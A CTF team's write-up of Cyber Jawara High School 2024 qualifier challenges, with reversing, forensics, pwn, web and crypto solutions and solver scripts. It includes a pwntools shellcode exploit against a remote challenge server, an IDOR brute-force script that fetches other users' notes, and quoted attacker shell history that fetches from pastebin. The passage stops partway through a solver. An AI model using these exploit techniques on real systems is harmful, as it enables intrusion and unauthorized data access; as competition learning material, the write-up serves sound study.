## Cyber Jawara High School 2024 Quals

   

Cyber Jawara is a national CTF held by CSIRT.id and Indonesia Network Security Association.
It's quite a well-known competition, with its own division for high school students!
I get invited by N2L's GOAT himself to play on this CTF,
and I really wanna play together with genggx.,
so that's the team :p

In short, we initially lead in this quals but then got surpassed cuz we can't solve anymore :(  
Not bad though, we got lots of first blood, and most importantly, made a freaking awesome write-up :D

It's weird tho, it's Cyber Jawara 2024 but its held in 2025 :/
The organizer is doing okay for sure.



Online gdocs version [here](https://docs.google.com/document/d/1b2xKzn409UNQ11Q9zq1BCm8kmnwwfINVsoKsk7PPOBM/edit?usp=sharing)!!
Anyway, happy reading!! :DD

## REVERSE ENGINEERING

### [100] 🩸 Baby ASM Raw 🩸 [29 Solves]

Pseudo-C decompilation makes us lazy. Analyze this small ASM output from objdump.  
Flag: CJ{%d} where %d is an accepted number (digit only)  
**Author: farisv**

#### Summary

There is an ASM text file that checks if the input (%d) is equal to the number calculated in check. So, just look at it and calculate by yourself what the number is :>

#### Solution

`baby-asm-raw.txt`:

00000000000011a9 <check>:
11a9: endbr64
11ad: push   rbp
11ae: mov    rbp,rsp
11b1: mov    DWORD PTR [rbp-0x14],edi
11b4: mov    DWORD PTR [rbp-0xc],0x100000 ; a = 0x100000
11bb: mov    DWORD PTR [rbp-0x8],0x82     ; b = 0x82
11c2: mov    DWORD PTR [rbp-0x4],0x3      ; c = 0x3
11c9: mov    edx,DWORD PTR [rbp-0x8]      ; EDX = b -> 0x82
11cc: mov    eax,DWORD PTR [rbp-0x4]      ; EAX = c -> 0x3
11cf: add    eax,edx                      ; EAX = EAX + EDX -> 0x85
11d1: imul   eax,DWORD PTR [rbp-0xc]      ; EAX = EAX * a -> 0x8500000
11d5: cmp    DWORD PTR [rbp-0x14],eax     ; 0x8500000 (hex) -> 139460608 (denary)
11d8: sete   al
11db: pop    rbp
11dc: ret

00000000000011dd <main>:
11dd: endbr64
11e1: push   rbp
11e2: mov    rbp,rsp
11e5: sub    rsp,0x10
11e9: mov    rax,QWORD PTR fs:0x28
11f0:
11f2: mov    QWORD PTR [rbp-0x8],rax
11f6: xor    eax,eax
11f8: lea    rax,[rbp-0xc]
11fc: mov    rsi,rax
11ff: lea    rax,[rip+0xdfe]        # 2004 <_IO_stdin_used+0x4>
1206: mov    rdi,rax
1209: mov    eax,0x0
120e: call   10b0 <__isoc99_scanf@plt> ; scanf untuk ambil input
1213: mov    eax,DWORD PTR [rbp-0xc]
1216: mov    edi,eax                   ; EDI = input
1218: call   11a9 <check>              ; panggil check
121d: test   al,al
121f: je     123c <main+0x5f>
1221: mov    eax,DWORD PTR [rbp-0xc]
1224: mov    esi,eax
1226: lea    rax,[rip+0xdda]        # 2007 <_IO_stdin_used+0x7>
122d: mov    rdi,rax
1230: mov    eax,0x0
1235: call   10a0 <printf@plt>
123a: jmp    124b <main+0x6e>
123c: lea    rax,[rip+0xdcc]        # 200f <_IO_stdin_used+0xf>
1243: mov    rdi,rax
1246: call   1080 <puts@plt>
124b: mov    eax,0x0
1250: mov    rdx,QWORD PTR [rbp-0x8]
1254: sub    rdx,QWORD PTR fs:0x28
125b:
125d: je     1264 <main+0x87>
125f: call   1090 <__stack_chk_fail@plt>
1264: leave
1265: ret


If it's like this, first check where our input is taken.
Well, there is a call to [*scanf*](http://tutorialspoint.com/c_standard_library/c_function_sscanf.htm) (line 32), and a call to *check* (line 35).
Terus liat aja di check, dan itu ada [*cmp*](https://www.tutorialspoint.com/assembly_programming/assembly_conditions.htm).
If we trace it back, [the DWORD](https://cuitutorial.com/courses/microprocessor-and-assembly-language/lessons/data-types-in-assembly-byte-word-and-dword/) PTR [rbp-0x14] is set to EDI (line 5), and before *check* is called, EDI is set to be our input (line 34).
Well, then the second operand *cmp* is the result of a calculation like this which is stated in the comment (line 6-13).
By the way, if you don't know what hexadecimal and denary are, check [here](https://www.eecs.umich.edu/courses/eecs270/270lab/270_docs/HexNumSys.pdf) ;)

**Flag: `CJ{139460608}`**  
**Rating \[3/10\]**  
I originally wrote this one chall write-up in Indonesian wkwkkw. Extended exposure to assembly might make you a bit, uhhh, geeky ahh, I might say. Got first blood even. Wowww :O

### [220] 🩸 ASM Raw 🩸 [15 Solves]

Pseudo-C decompilation makes us lazy. Analyze this ASM output from objdump.  
Flag: CJ{%s} where %s is an accepted string

#### Summary

Another ASM source text, but this time much.. longerrr ;3  
It checks if our input string passes all defined rules, including palindrome and ASCII value relative to other bytes. Got a lot of practically useless instructions on length validation, just to confuse you!!

#### Solution

Woaahh, that’s a long one, like, 206 lines! Is this gonna be hard?? No fool, it’s not that hard, just use *expert system* to convert it to C!! C:

`asm-raw.txt`:

#include <stdio.h>
#include <string.h>
#include <stdbool.h>

bool check(const char* str) {
    int len = strlen(str);
    for (int i = 0; i < len/2; i++) {
        if (str[i] != str[len-1-i]) {
            return false;
        }
    }
    return true;
}

int main() {
    char input[100];
    scanf("%s", input);
    int len = strlen(input);
    bool valid = true;

    valid = valid && check(input);
    valid = valid && (len == 0x15);
    valid = valid && (len > 0x14 && 
                     input[0] == 'a' && 
                     input[2] == 'a' && 
                     input[4] == 'a' && 
                     input[7] == 'a' && 
                     input[9] == 'a');
    valid = valid && (len > 3 && input[1] == input[3] - 1);
    valid = valid && (len > 0x13 && input[19] == 'm');
    valid = valid && (len > 0xf && input[15] == 'p');
    valid = valid && (len > 6 && input[6] == input[5] - 4);
    valid = valid && (len > 0x11 && input[8] == input[17]);
    valid = valid && (len > 0xa && input[10] == 'c');

    if (valid) {
        printf("%s\n", input);
    } else {
        puts("Wrong!");
    }

    return 0;
}


Aight, THERE! See? Line 22! The **string length is 0x15, or 21**.
What’s interesting is the *check* function, which is basically just **a palindrome check**.
Palindrome is just “a word, phrase, or sequence that reads the same backward as forward”, like ‘radar’ or ‘mom’. 

There, we can clearly see some defined characters like ‘a’, ‘m’, ‘p’, and ‘c’.
There’s another value too, as you can see in line 29 and 32, depending on a particular character.
These `len > X` is kinda pointless though, and is there to just cause confusion, I guess.
You can construct it manually, but I just use a solver to do this, bruteforce style :>

`solve.py`:

def is_valid(s):
    if len(s) != 0x15:
        return False
    if s != s[::-1]:
        return False
    if not all(s[i] == 'a' for i in [0,2,4,7,9]):
        return False
    if ord(s[1]) != ord(s[3]) - 1:
        return False
    if s[19] != 'm':
        return False
    if s[15] != 'p':
        return False
    if ord(s[6]) != ord(s[5]) - 4:
        return False
    if s[8] != s[17]:
        return False
    if s[10] != 'c':
        return False
    return True

result = ['a'] * 21
result[19] = 'm'
result[15] = 'p'
result[10] = 'c'

for b1 in range(97, 123):
    result[1] = chr(b1)
    result[3] = chr(b1 + 1)

    for b5 in range(97, 123):
        result[5] = chr(b5)
        result[6] = chr(b5 - 4)

        for b8 in range(97, 123):
            result[8] = chr(b8)
            result[17] = chr(b8)

            # fill for palindrome
            for i in range(len(result)):
                if i > len(result)//2:
                    result[i] = result[len(result)-1-i]
            test = ''.join(result)

            if is_valid(test):
                print(f"Found valid string: {test}")
                exit()

print("No valid string found")




**Flag: `CJ{amanaplanacanalpanama}`**  
**Rating \[6/10\]**  
I actually tried to manually construct the flag with the C code, but well, I did something wrong and it fails.
Duh, I love BF.
Yeah, you can just solve this with Z3, actually,
it would probably be simpler xd,
I just forgot about Z3 for that moment.

### [400] Baby Ransom [5 Solves]

Is it possible to recover encrypted file?  
**Author: ryuk**

#### Summary

Given a [wincrypt](https://learn.microsoft.com/en-us/windows/win32/api/wincrypt/nf-wincrypt-cryptencrypt) ransom executable and `flag.txt.encrypted`, I search for the key, and decrypt the ransomed file to get back the flag!! Simpleee 👌🏻

#### Solution

So we got this `BabyRansom.exe` file, and thankfully, it’s an itsy-bitsy lil file, with only 16k bytes!!  
So, as per usual, I slap this on Ghidra, auto-analyze, and get thrown the entry.
There are only two function calls, and the first one is identified as [__security_init_cookie](https://learn.microsoft.com/en-us/cpp/c-runtime-library/reference/security-init-cookie?view=msvc-170) by Ghidra, and that’s NOT important.
Now you know!  

WHEN I hopped to the second function, I didn’t really see anything intelligible, as in this part it’s still mostly the setup instructions.
So, since the binary is smol, I just peek one-by-one through the Symbol Tree windows for functions, until I found an interesting one, which has an (output) string message.
**Immediately, there’s a hardcoded `memcpy` argument into what I identify as the key to the ransom**.



Greatt!!
Then, I tracked down where the ``key`` is used within that function, and found that it’s passed into another function, together with an ``.encrypted`` file name.
I guess this is where the encryption happens!  




  
So, looking at it, this is just entirely ``wincrypt.h``.
Here’s what this does:

- 26-28: get a handle to a key container within a particular cryptographic service provider (CSP),  
- 29: initiates hashing & get a handle to a CSP hash object,  
- 30-31: Adds key into the hash object,  
- 33: generate cryptographic session keys derived from hash object and key,  
- 35: read victim file,   
- 40: encrypt its data with the session keys, then  
- 42-43: finally, write it into an ``.encrypted`` file.

Understand all that? Do I? No you fool, I don’t. Idk why I added this part here. I guess to nurture you curious ones. Aight, sure, we know how it works, so how’s the decryption then??

Literally, just replace CryptEncrypt with CryptDecrypt. Yup :p

`solve.py`:

from Crypto.Cipher import ARC4
from Crypto.Hash import MD5
import sys
import os

def derive_key(password):
    md5 = MD5.new()
    md5.update(password.encode())
    return md5.digest()

def decrypt_file(input_file, output_file, key):
    cipher = ARC4.new(derive_key(key))
    
    try:
        with open(input_file, 'rb') as f:
            encrypted_data = f.read()
        
        decrypted_data = cipher.decrypt(encrypted_data)
        
        with open(output_file, 'wb') as f:
            f.write(decrypted_data)
            
        print(f"Successfully decrypted {input_file} to {output_file}")
        return True
        
    except Exception as e:
        print(f"Error during decryption: {str(e)}")
        return False

def main():
    if len(sys.argv) != 3:
        print(f"Usage: {sys.argv[0]} <encrypted_file> <output_file>")
        sys.exit(1)
    
    key = "KV7DhhsFn83jsPif"
    
    input_file = sys.argv[1]
    output_file = sys.argv[2]
    
    if not os.path.exists(input_file):
        print(f"Error: Input file {input_file} does not exist")
        sys.exit(1)
    
    if decrypt_file(input_file, output_file, key):
        sys.exit(0)
    else:
        sys.exit(1)

if __name__ == "__main__":
    main()




**Flag: `CJ{r4ns0mw4r3_w1th_H4rdc0d3d_k3y_0b168abdef}`**  
**Rating \[6/10\]**  
When I wanna make the decryptor, my windows VM doesn’t have visual studio installed yet so I have to wait for the sloww ass downloaad 🥱.
I wanna use windows’s wincrypt API cuz I thought there’s no open documentation on CryptEncrypt() but I’m (absolutely) dead wrong, it’s just one web search away– DUH.
So actually, there’s no need for visual studio here 😞😞.
Thankfully, the goat turn the C# solver into Py and, yeee, that’s how it goes ^-^

## FORENSIC

### [100] White [30 Solves]

> Written by genggx.

We think a threat actor hides a secret message on this blank white picture.  
**Author: farisv**

#### Summary

Given an image file in BMP format, which is part of a steganography challenge, where a flag is hidden in the image.

#### Solution

Since this was a steganography challenge, the first thing I did was check the file type.  


  
After performing an initial check on the image file using methods such as binwalk, strings, and foremost, no significant results or hidden information were found. This indicated that the file did not store any hidden data in the formats detected by these conventional methods.

However, after attempting to use the Aperi'Solve service, further analysis revealed that the hidden data, in the form of flags, was actually inserted into the RGB layer of the image. This approach suggests that the data is hidden through manipulation of the color elements in the image, making it not directly visible without special analysis tools.  



**Flag: `CJ{w0w_congrats_you_can_s33_th15_t3xt}`**  
**Rating \[7/10\]**

### [100] Home [20 Solves]

Someone broke into our test server. Could you help to investigate what they did?  
**Author: farisv**

#### Summary

We’re given a home folder of a linux user, with a git repo inside of it. The flag is split into 5 parts, recovered from: ``.bash_history`` with base64 (1) and pastebin (2), ``.git/config`` user name (3), hex-dumped flag.jpg (4), and lastly a deleted flag.txt (5). Big thanks to [ripgrep](https://github.com/BurntSushi/ripgrep)<33 ! heheheehe

#### Solution

I didn’t find the flag parts in order, but I’ll do it for viewing pleasure in this write-up. Initially, the ``home`` folder structure looks like this:


home 
└── test
     ├── .bash_history
     ├── .bash_logout
     ├── .bashrc
     ├── .cloud-locale-test.skip
     ├── .lesshst
     ├── .local
     │   └── share
     │       └── nano
     ├── .profile
     └── repo
         ├── .git
         │   ├── COMMIT_EDITMSG
         │   ├── HEAD
         │   ├── ORIG_HEAD
         │   ├── branches
         │   ├── config
         │   └── —snip–
         ├── abcdef
         ├── flag.jpg
         ├── flag.jpg.hex
         ├── flag.txt
         └── test.txt


One of the first thoughts I had in investigating a home folder is, of course, **checking the command history**. I ``ls -lah`` on the ``home`` folder, and noticed ``.bash_*`` files, including ``.bash_history``, which is where the command history is stored. In there, I got these interesting commands:


--snip--
php -a
ls -alt
printf "VlVkR2VXUkRRWGhQYVVKRVUyNXpNRTFVWTNoT1ZGVXdUbGRhYTFwUlBUMEsK" | base64 -d | base64 -d | base64 -d
ls -alt
a="wiq"
b="1G"
c="iab"
curl "https://pastebin.com/raw/${a}${c}${b}"
mkdir repo
cd repo
--snip--


I then evaluated command 34 expression into a shell and got the first part :D  


  
Now, for line 39, I did the same, and opened the link. That’s the second part!!  

 
  
Other commands in ``.bash_history`` show some setup before and the git repo commands after this section. Not much can be extracted from those.  
I noticed this little trend where the flag is indicated by this string ‘part’, amirite?? So I just do a little silly and **ripgrep the entire home folder with ‘part’**, and got the 3rd part!! :O  


  
Two parts left! There’s this ``flag.jpg.hex`` file that I haven’t touched, and when I opened it, it’s seems like the output of ``xxd``, the hex dump program:  


  
I **reversed it with *`xxd -r`*** then see the image– that’s the fourth part! ^-^  


  
Well, actually in ``.bash_history``, we can see that there’s a ``flag.txt`` from nano, then a commit, it gets deleted, then a commit again. Thanks to that former commit, the state of ``flag.txt`` before deletion would be stored in history. **This can be checked with the command *`git reflog`***:  


  
I do a ``git reset --hard d8d597a`` to reset back ``flag.txt`` deletion, and then cat it!  


  
Yooo we got itt ;)

**Flag: `CJ{41715545fdecdeaa7db6a3aee1df7cfb109f0d4729ba9a2ff696d9858f7772c7}`**  
**Rating \[5/10\]**  
Five is quite a lot, not gonna lie. But these are just simple things, so nothing much. Still, kind of a fun one.

### [400] 🩸 Whale 🩸 [5 Solves]

Someone broke into our application server.
Could you help to investigate what they did?  
https://drive.google.com/file/d/1du2MDOLldM3d_akDkIxypSStuaOSuDP6/view?usp=sharing  
**Author: farisv**

#### Summary

Given a Docker root capture (?), we NEED to investigate what the intruder does.
This Docker image runs a service that includes an /upload endpoint for receiving files.
The flag is divided into 3 parts, and I recovered it by: analyzing Dockerfile and imagedb (1), locating an ‘interesting’ file (2) through endpoint log, and decrypting an uploaded file content (3).

#### Solution

In the file ``/app/Dockerfile``, we can see instructions on building this Docker image, attached below.
It runs two curl commands (line 20-21) into pastebin, one for ``app.py``, but the other to the– stdout? Weird?? That should totally be something intentional.
However, the pastebin link is an argument, meaning it’s not hardcoded.

Well, since logs are mostly in plain-text (yea, mostly), I thought I might get a clue by just [**ripgrep**](https://github.com/BurntSushi/ripgrep)**\-ing the entire disk for [https://pastebin.com/raw/](https://pastebin.com/raw/)**.
And yup! That just got me the **first part of the flag**, accessible at [https://pastebin.com/raw/YJqeFMMv](https://pastebin.com/raw/YJqeFMMv)!!  
About the second curl that fetches [https://pastebin.com/raw/fUH6jy3d](https://pastebin.com/raw/fUH6jy3d), we can see that it has the code for app.py, the ``/upload`` endpoint handler.
Clearly, you can see that it receives a base64 encoded file ``a`` (line 11) and then AES encrypts it with a given key ``b`` if provided (line 24-28) to be stored (line 31-33).
What’s interesting here is how the working directory is /, which is kind of, unsafe??




from flask import Flask, request, jsonify
import base64
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad
import os

app = Flask(__name__)

@app.route('/upload', methods=['POST'])
def upload_file():
  # Get query parameters
  file_path = request.args.get('a')
  encryption_key = request.args.get('b')

  if not file_path:
    return jsonify({"error": "Query parameter 'a' is required for file path."}), 400

  try:
    # Get the Base64-encoded file content from the request body
    encoded_file = request.data.decode('utf-8')
    file_content = base64.b64decode(encoded_file)

    # If encryption key is provided, encrypt the file content
    if encryption_key:
      if len(encryption_key) not in (16, 24, 32):
        return jsonify({"error": "Encryption key must be 16, 24, or 32 bytes long."}), 400
      cipher = AES.new(encryption_key.encode('utf-8'), AES.MODE_ECB)
      file_content = cipher.encrypt(pad(file_content, AES.block_size))

    # Save the file
    os.makedirs(os.path.dirname(file_path), exist_ok=True)
    with open(file_path, 'wb') as f:
      f.write(file_content)

    return jsonify({"message": "File uploaded successfully."}), 200

  except base64.binascii.Error:
    return jsonify({"error": "Invalid Base64-encoded string."}), 400
  except Exception as e:
    return jsonify({"error": str(e)}), 500

if __name__ == '__main__':
  app.run(debug=True)


So? Well, I then tried to see logs related to this ``app.py``, and thanks to ‘expert system’ (cetjipiti), I find about these ``-json.log*`` files, which store info about incoming connections and all of their arguments, perfect!! :D  


  


  
There’s 6 sessions, and only one is ‘successful’, cuz probably the rest are just the author testing things out (yes, it is). In that particular session, several files are uploaded together with their AES keys. I [fd-find](https://github.com/sharkdp/fd) from Docker root for one of the file names and found that its **location is in the directory of `var/lib/docker/overlay2/473883…59fb77/diff/tmp/`**, along with the rest of the files.  
In the same session, I noticed this one file called ***`interesting`*** that’s actually uploaded **without any encryption key**, so it’s pretty much there in plain-text. And voila (as they might say it), we got the second part!!(?)  


  
Okayy, one more? Since these files are encrypted, and we actually know how it’s encrypted in whole, what then? Ah yes, my favourite category, reversing :3  
Really, this one is simple af, just do ``cipher.decrypt()`` instead of ``cipher.encrypt()``!! You don’t even have to worry about the base64. Here’s the solver:


from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad
import base64
import argparse

def main():
    parser = argparse.ArgumentParser()
    parser.add_argument('input')
    parser.add_argument('key')
    args = parser.parse_args()
    
    if len(args.key) not in (16, 24, 32):
        print(f'{len(args.key) not in (16, 24, 32)=}')
        exit(1)
    
    cipher = AES.new(args.key.encode('utf-8'), AES.MODE_ECB)
    
    with open(args.input, 'rb') as f:
        enc = f.read()
    print(f'{enc=}')
    
    dec = unpad(cipher.decrypt(enc), AES.block_size)
    print(f'{dec=}')

if __name__ == '__main__':
    main()



  
That’s all! We got the flag :\>  

**Flag: `CJ{dae071f96aadfb8c2417ed6715711cb9e36e6c1e}`**  
**Rating \[8/10\]**  
I rarely do forensic, and I somehow beat thisss??! Ain’t complaining tho XD. rg/fd ftw!! Guess the hassle of operating and trouble-shooting a not-so-supported linux distro helps me in the long run, just makes you know what to search 4\.

### [300] Grayscale [9 Solves]

> Written by roxasz_

A threat actor hides a secret message on this intentionally-broken GIF.

#### Summary

Given a broken .gif (we can fix it), we overwrite into the start of that file: a GIF magic number, version, width and height, and Global Color Table \+ Background Color Index; where the width and height is brute force until we find a visible flag!

#### Solution

Given a gif file, according to the problem description, it is “broken” meaning that this gif file has been corrupted, our task is to restore the corrupted file by fixing the hex header.  



See this file is not detected as a valid GIF image file, but only as raw data.  
Okay straight to the point, here I use a hex editor (010 Editor) to change the hex header of the GIF image file.  
File \> Open file \> greyscale.gif  


  


  
Here just focus on the first line  


  


  
Red : Signature \= 47 49 46  
Yellow : Version \= 38 39 61  
Green : Width \= 40 02  
Blue : Height \= 30 02  
Orange: Global Color Table (GCT) Flag & Background Color Index \= E6 00

For the width and length, I tried various sizes until I found the right width and length, which is (40 02 & 30 02).  



**Flag: `CJ{_s0_15_it_pr0nounc3d_GiF_or_JiF?_}`**  
**Rating \[5/10\]**

## PWN

### [420] Baby Give Me File [5 Solves]

> Written by genggx.

Please help me to get the flag file with a shellcode.  
**Author: farisv**

#### Summary

In this challenge, we were given a zip file that contained various files such as ELF binary, Dockerfile, and others. The main objective of this challenge is to obtain the flags stored on the remote server.

However, to achieve this goal, an exploit using shellcode injection techniques is required. This challenge is not easy as there are several layers of filters that must be bypassed first. These filters are designed to prevent direct execution of the payload, so a deep understanding of bypass techniques, shellcode modification and advanced exploitation is required.

#### Solution


  
These ELF files are 64-bit, dynamically linked, and not stripped, so they still contain debugging symbols for easier analysis.  


  
At first glance, these ELF files are fully protected, including **Stack Canary** which is enabled to detect and prevent buffer overflow exploits on the stack, **NX (No-eXecute)** which prevents code execution in non-executable memory segments, and **PIE (Position Independent Executable)** which enables memory address randomization via ASLR to improve runtime security.

Then why can the file be vulnerable to shellcode injection even though NX (No-eXecute) is enabled?  
Okay here's the explanation:

1. In the **mmap** function, a memory area of **0x800 bytes** is allocated with the **PROT\_READ | PROT\_WRITE | PROT\_EXEC** flags (value 7). This flag combination allows the allocated memory area to have **read**, **write**, and **execute** permissions simultaneously, thus bypassing the NX protection applied at the system level.  
   

  
   Then this program can only accommodate input with a maximum character count of 0x800 (2048 bytes).  
2. The program then requests input in the form of a shellcode in hexadecimal format (example: \\x90\\x90\\x90).  
   This shellcode is parsed using the **strtol** function and written to the allocated memory area with **mmap**.  
   

  
3. After the shellcode is written to memory, the program executes it by calling the function pointer **(\*pcVar2)()**, where **pcVar2** is a pointer to **local\_50** memory.  
   


Next, After analyzing the runner file, the next step is to analyze the ELF sandbox file, which functions to filter and limit our shellcode input.

1\. **Checking Allowable Syscalls**   
This is a key part of the sandbox that filters syscalls made by the monitored program. Every time a process performs a syscall, the syscall code (syscall number) is checked.

* The system checks the syscall number with **ptrace(PTRACE\_GETREGS)** to get the value of the register containing the called syscall number.  
* If the called syscall number is in the list of allowed syscalls **(syscall\_numbers)**, execution continues.  
* If the syscall number is not in the allowed list, the process will be terminated as it is considered to be attempting a malicious or unauthorized syscall.  
  

  
  Based on the analysis results, the syscalls that are allowed to be executed are **read()**, **write()**, and **exit()**, while the restricted syscalls that are not allowed to be executed include **mmap()**, **execve()**, and **fork()**.

2\. **Runtime Error Handling** 

If a runtime error such as a segfault, illegal instruction, or bus error occurs, the program displays the appropriate message and then terminates the process.



After analyzing everything, here is the solve script.

`solve.py`:

from pwn import *

exe = "./runner"
elf = context.binary = ELF(exe, checksec=False)

def main():
    # p = elf.process(
    p = remote("159.89.193.103", 10001)

    shellcode = shellcraft.open('/flagggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggg.txt')
    shellcode += shellcraft.read('rax', 'rsp', 100)
    shellcode += shellcraft.write(1, 'rsp', 100)

    compiled_shellcode = asm(shellcode)
    hex_shellcode = ''.join(f'\\x{byte:02x}' for byte in compiled_shellcode)
    p.sendline(hex_shellcode)
    p.interactive()

if __name__ == '__main__':
    main()


For the flag name, adjust it in the Dockerfile. The flag name is really long :v  



shellcraft.open() is useful for opening files


shellcraft.open('/flagggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggg.txt')


**shellcraft.read(fd, buffer, size)**: Adds shellcode to read data from a previously opened file.


shellcraft.read('rax', 'rsp', 100)


The '**rax**' argument refers to the register that stores the file descriptor of the opened file.  
'**rsp**' is the stack address where the read data will be copied.  
**100** is the number of bytes to be read (in this case, the first 100 bytes of the flag file).

shellcraft.write(fd, buffer, size): Added shellcode to write the read data to file descriptor 1 (stdout).


shellcraft.write(1, 'rsp', 100)


'**rsp**' is the stack address containing the data just read (from the flags file).  
**100** is the number of bytes to be written to stdout (prints the flag).


hex_shellcode = ''.join(f'\\x{byte:02x}' for byte in compiled_shellcode)


Then the hex\_shellcode variable is useful for converting our shellcode into hex form with the format (\\x00)

Finally, just run the code.  



**Flag: `CJ{4601d63f2ecb2a503527ecfc6dc7f4b1}`**  
**Rating \[10/10\]**

## WEB EXPLOITATION

> Written by roxasz_

### [100] Bug Bounty [24 Solves]

I want to get bounty from this website. Help me to find the bug, please.  
Note: This is bug bounty so no source code x(  
**Author: farisv**

#### Solution

First of all, there is no source code to this web application so, here we go.  
Oh, there are some exploit surfaces cause no source code for it : 

1. Sql on login page, (i already do it, but it can’t)  
2. Command injection or ssti (i already do it, but it can’t)  
3. Broken access control


  
They give us login page, and the register page after we get into it we know that we can create a note.  


  
Cause i dont expertise at web exploits, I only know command injection and ssti vuln so… lets try another exploit surfaces.  


  
/33 ? hmm that’s interesting one, lets try to change the value to 1\.   


  
Okayy it work, so we can just brute the id to get the flag notes by using some bruteforce id, i already create the script

`brute.js`:

(async () => {
    const e = "http://159.89.193.103:5555",
        s = "<JWT VALUE>";
    for (let t = 0; t < 500; t++) try {
        const n = await (await fetch(`${e}/note/${t}`, {
                method: "GET",
                headers: {
                    Cookie: `session=${s}`
                },
            })).text(),
            o = n.match(/
(.*?)<\/p>/g)?.map((e) => e.replace(/<\/?p>/g, "")) || [];
        if ((console.log(`Note ${t}:`, o), o.some((e) => e.includes("CJ{")))) return void console.log("Found flag at note:", t);
    } catch (e) {
        console.error(`Error fetching note ${t}:`, e);
    }
})();


So with that, we get the flag…  



**Flag: `CJ{b7464a1d7a8870c5421f621bad12078b2b94d45dfe20c4a50e4d2d99699be38cb9b7a5ceb27b61f6ca6eafde7b0baf94}`**  
**Rating \[5/10\]**

## CRYPTOGRAPHY

### [100] Pesan Rahasia [24 Solves]

> Written by roxasz_

Saya mendapatkan pesan yang telah diacak dengan mengganti semua huruf kecil dengan huruf tertentu. Suatu huruf bisa saja tidak diganti (lihat kode encrypt.py).  
**Author: farisv**

#### Problem

In the "Pesan Rahasia" challenge, participants are presented with an encrypted message that has been obfuscated by substituting lowercase letters with other lowercase letters based on a random mapping. Notably, some letters might remain unchanged during the encryption process

Given 2 files 

- **rahasia.txt**: This text file contains the encrypted message that needs to be decrypted.  
- **encrypt.py**: This Python script outlines the encryption mechanism used to obfuscate the original message.

`Encrypt.py`:

import random

def create_mapping():
    alphabet = "abcdefghijklmnopqrstuvwxyz"
    shuffled = list(alphabet)
    random.shuffle(shuffled)
    mapping = {}
    for i in range(len(alphabet)):
        mapping[alphabet[i]] = shuffled[i]
    return mapping

def encrypt(text, mapping):
    result = ""
    for char in text:
        if char in mapping:
            result += mapping[char]
        else:
            result += char
    return result

alphabet_mapping = create_mapping()
text = input("Enter text to encrypt: ")
encrypted_text = encrypt(text, alphabet_mapping)

print("Original text:", text)
print("Encrypted text:", encrypted_text)


**Encryption Process**:

* A random mapping is created by shuffling the alphabet.  
* Each lowercase letter in the input text is replaced based on this mapping.  
* Characters not in the mapping (e.g., uppercase letters, digits, punctuation) remain unchanged.

#### Solution

1. We are using Letter Frequency Analysis in Indonesian language, by comparing the frequency of letters in the encrypted text to typical Indonesian letter frequencies, we can hypothesize potential mappings.  
2. Based on frequency analysis and pattern matching, we can start deducing the probable mappings between the encrypted letters and the original letters

`Solve.py`:

import re
from collections import Counter

def main():
    with open('rahasia.txt', 'r') as file:
        text = file.read()

    letters = [c for c in text.lower() if c.isalpha()]
    freq = Counter(letters)

    words = re.findall(r'\b\w+\b', text)
    word_freq = Counter(words).most_common(20)

    mapping = {
        'o': 'a', 's': 'i', 'c': 'n', 'x': 'e', 'z': 'y',
        'k': 'g', 'p': 'l', 'l': 'd', 'w': 'u', 't': 'h',
        'n': 's', 'b': 'b', 'f': 'k', 'v': 'r', 'y': 't',
        'g': 'o', 'a': 'j', 'd': 'm', 'u': 'c', 'r': 'p'
    }

    decrypted = ''.join([
        mapping.get(char.lower(), char).upper() if char.isupper() else mapping.get(char, char)
        for char in text
    ])
    print(decrypted)

    flag = "CJ{ngop_scs_nxbxcovczo_bsno_lsnxpxnosfoc_gpxt_os_lxckoc_dwlot}"
    decrypted_flag = ''.join([
        mapping.get(char.lower(), char).upper() if char.isupper() else mapping.get(char, char)
        for char in flag
    ])

if __name__ == "__main__":
    main()


**Flag: `CJ{soal_ini_sebenarnya_bisa_diselesaikan_oleh_ai_dengan_mudah}`**  
**Rating \[7/10\]**

### [120] Permutasi [20 Solves]

> Written by roxasz_

Saya mendapatkan pesan yang telah diacak dengan mengacak urutannya atau permutasi. Potongan pesan aslinya diketahui tapi saya perlu pesan yang utuh.  
**Author: farisv**

#### Solution

In the **"Permutasi"** challenge, participants are tasked with decrypting a message that has been obfuscated through permutation-based encryption. The encryption process involves rearranging the order of characters in the original message based on a permutation key. Participants are provided with the encrypted message, the encryption script (`encrypt.py`), and a partial snippet of the original message to aid in decryption.

**Encryption Process**  
Understanding the encryption mechanism is crucial for devising an effective decryption strategy. Let's delve into the encrypt.py script to comprehend how the original message is transformed.

`Encrypt.py`:

import random

def encrypt(msg, key):
    keylen = len(key)
    k = list(range(keylen))
    for i in range(keylen):
        for j in range(i + 1, keylen):
            if key[i] > key[j]:
                key[i], key[j] = key[j], key[i]
                k[i], k[j] = k[j], k[i]
    m = ''
    for i in k:
        j = i
        while j < len(msg):
            m += msg[j]
            j += keylen
    return m k = random.sample(range(256), 10)
m = input("Enter a message: ")
m = encrypt(m, k)
print("Encrypted message:", m)


Encryption method: 

- A random key `k` is generated using `random.sample(range(256), 10)`, producing a list of 10 unique integers between 0 and 255\.  
- Simultaneously, a list `k` of indices (from `0` to `keylen - 1`) is reordered based on the sorted key. This establishes a mapping between the original indices and their new positions post-sorting.  
- The original message `msg` is permuted by iterating through the reordered indices.  
- For each index `i` in the sorted key list, characters from the message are selected starting at position `i`, then every `keylen`\-th character thereafter.  
- This results in the encrypted message `m`, which is a rearranged version of the original message based on the permutation key.


Solve.py



from itertools import permutations as perms

def unscramble(cipher_text, cipher_key):
   n = len(cipher_key)
   key = list(cipher_key)
   indices = list(range(n))
   
   for a in range(n):
       for b in range(a + 1, n):
           if key[a] > key[b]:
               key[a], key[b] = key[b], key[a]
               indices[a], indices[b] = indices[b], indices[a]
   
   pos_map = [0] * n
   for idx, val in enumerate(indices):
       pos_map[val] = idx
       
   decoded = [''] * len(cipher_text)
   p = 0
   for c in range(n):
       start = pos_map[c]
       step = 0
       while start + step * n < len(cipher_text):
           if p < len(cipher_text):
               decoded[start + step * n] = cipher_text[p]
               p += 1
           step += 1
           
   return ''.join(decoded)

try:
   with open("rahasia.txt","r") as file:
       cipher = file.read().strip()
       
